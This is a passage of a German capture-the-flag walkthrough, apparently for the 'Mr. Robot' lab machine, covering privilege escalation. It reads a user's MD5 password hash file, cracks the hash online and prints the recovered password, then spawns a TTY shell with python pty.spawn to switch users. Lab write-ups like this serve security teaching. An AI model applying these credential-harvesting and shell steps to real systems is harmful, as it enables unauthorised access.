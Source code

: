 Das Problem ist, dass wir überhaupt kein "Roboter"-Benutzer auf dieser Maschine sind. Wir überprüfen dies mit dem `whoami`-Befehl.

> ```shell
> $ whoami
> daemon
> ```

Die einzige Datei, die wir sehen können, ist `password.raw-md5`. Mal sehen, was in dieser Datei ist.

> ```shell
> $ cat /home/robot/password.raw-md5
> robot:c3fcd3d76192e4007dfb496cca67e13b
> ```

### MD5-Hash entschlüsseln

Es ist MD5-Hash. Ein Hash ist eine mathematische Funktion, die nicht zurückgegeben werden kann, nachdem sie ihre Aufgabe erledigt hat. Dies ist gut zum Speichern von Passwörtern, aber MD5 ist ein alter Algorithmus und leicht zu knacken.

Wir werden zunächst prüfen, ob dieser Hash online geknackt werden kann, um Zeit zu sparen. [Verknüpfung](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b)

Wie wir auf dem obigen Link sehen können, ist dies möglich. **Das Passwort** ist `abcdefghijklmnopqrstuvwxyz`
   
Jetzt müssen wir uns als `robot`-Benutzer anmelden. Das machen wir mit folgendem Befehl:

> ```shell
> su - robot
> ```

Aber es gibt ein Problem:

> ```shell
> $ su - robot
> su: must be run from a terminal
> ```

### Python Shell

Dies kann mit Python behoben werden. Zuerst müssen wir prüfen, ob Python überhaupt installiert ist.

> ```shell
> $ which python
> /usr/bin/python
> ```

Lassen Sie uns eine Shell mit Python erstellen. Das können wir mit diesem Befehl machen:

> ```shell
> python -c 'import pty; pty.spawn("/bin/sh")'
> ```

Wie Sie sehen können, hat das Terminal keine Fehler angezeigt, was bedeutet, dass wir erfolgreich eine Shell in Python erstellt haben.
